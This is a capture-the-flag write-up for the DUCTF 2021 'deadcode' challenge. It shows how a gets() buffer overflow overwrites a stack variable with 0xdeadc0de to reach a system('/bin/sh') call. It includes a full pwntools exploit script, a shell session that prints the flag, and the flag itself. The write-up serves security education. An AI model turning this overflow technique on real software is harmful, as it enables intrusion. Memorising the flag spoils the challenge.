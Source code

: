 # deadcode

## Category
Pwn

## Points
Dynamically allocated starting at 500, ending at 100

## Description
I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31916`

Files: `deadcode`

## Keywords
pwntools, Python, Buffer Overflow, Ghidra

## Notes
The executable (`deadcode`) was opened in Ghidra, and this showed the `main()` function as:

![main function](main_function.png)

Here we can see the input uses `gets()` to fill the `local_28` array, which is of size 24 chars. We can also see that `local_10` is declared directly after the array.

This means that we can overflow the `local_28` array and overwrite the `local_10` variable on the stack (they will be contiguous).

Later in `main()`, we can see that `local_10` needs to be `0xdeadc0de` to give us a shell (via the `system("/bin/sh")` call).

*pwntools* can help here. I wrote a Python script to connect to the `nc` address, create a payload and send it to the waiting server:
```python
from pwn import *

# Set the context to 64-bit
context.update(arch='amd64', os='linux')

# Connect to the server
p = remote('pwn-2021.duc.tf', 31916)

# Create and send the payload:
# 24 characters to fill the buffer, and then
# pack the 32-bit integer 0xdeadc0de - ensures the integer
# is set to the correct endianness for our context
payload = cyclic(24) + p32(0xdeadc0de)
p.sendline(payload)

# Switch to interactive mode so we can work with the
# shell (if we get it)
p.interactive()
```

When run, this gives the shell, and enables us to `cat` a file named *flag.txt* on the server:
```
$ python3 get_flag.py
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?


Maybe this code isn't so dead...
$ ls
flag.txt
pwn
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}$
$
```


